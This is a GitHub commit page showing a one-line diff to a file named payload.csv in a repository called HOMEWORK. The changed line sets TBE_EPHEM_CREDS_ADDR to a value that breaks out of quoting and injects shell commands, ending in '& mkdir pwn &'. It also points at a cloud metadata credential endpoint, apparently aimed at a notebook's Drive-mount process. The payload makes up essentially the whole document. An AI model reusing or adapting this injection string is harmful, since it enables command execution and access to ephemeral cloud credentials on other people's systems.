

Before and after one commit to Crazed-png/HOMEWORK, a CSV file: payload.csv, drawn as a sheet.

Commit message:
Update payload.csv

```diff
--- a/payload.csv
+++ b/payload.csv
@@ -2,2 +2,2 @@
 #1,2
-TBE_EPHEM_CREDS_ADDR='172.28.0.1:8009/computeMetadata/v1 --preferences=trusted_root_certs_file_path:/opt/google/drive/roots.pem,mount_point_path:/content/drive/ 2>&1 | grep --line-buffered -E 'Drive File Stream encountered a problem and has stopped|The domain policy has disabled Drive File Stream'; echo 'drive EXITED'; ) & mkdir pwn & # ' #,
+TBE_EPHEM_CREDS_ADDR="172.28.0.1:8009/computeMetadata/v1 --preferences=trusted_root_certs_file_path:/opt/google/drive/roots.pem,mount_point_path:/content/drive/ 2>&1 | grep --line-buffered -E 'Drive File Stream encountered a problem and has stopped|The domain policy has disabled Drive File Stream'; echo 'drive EXITED'; ) & mkdir pwn & # " #, 13
```
